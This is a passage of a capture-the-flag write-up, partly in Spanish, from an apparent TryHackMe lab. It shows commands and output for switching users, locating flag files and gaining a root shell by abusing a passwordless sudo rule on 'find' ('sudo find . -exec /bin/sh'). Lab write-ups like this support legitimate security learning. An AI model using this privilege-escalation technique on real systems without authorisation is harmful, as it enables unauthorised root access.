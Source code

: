 ### accedemos a la bandera

```
leonard@ip-10-10-205-236 ~]$ su missy
Password: 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "C.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

[missy@ip-10-10-205-236 leonard]$ cd /home/missy/
 

[missy@ip-10-10-205-236 ~]$ find . -name flag* 2>/dev/null

./Documents/flag1.txt

[missy@ip-10-10-205-236 ~]$ cat Documents/flag1.txt 
THM-42828719920544
 

THM-42828719920544
```


### What is the content of the flag2.txt file?

#### que hay con sudo ?

```
[missy@ip-10-10-205-236 ~]$ sudo -l
Matching Defaults entries for missy on ip-10-10-205-236:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-205-236:
    (ALL) NOPASSWD: /usr/bin/find
[missy@ip-10-10-205-236 ~]$ 

```

#### Explotamos sud0

```
[missy@ip-10-10-205-236 ~]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# find / -name flag2.txt 2>/dev/null

/home/rootflag/flag2.txt
sh-4.2# 
sh-4.2# cat /home/rootflag/flag2.txt 
THM-168824782390238
sh-4.2# 


THM-168824782390238
```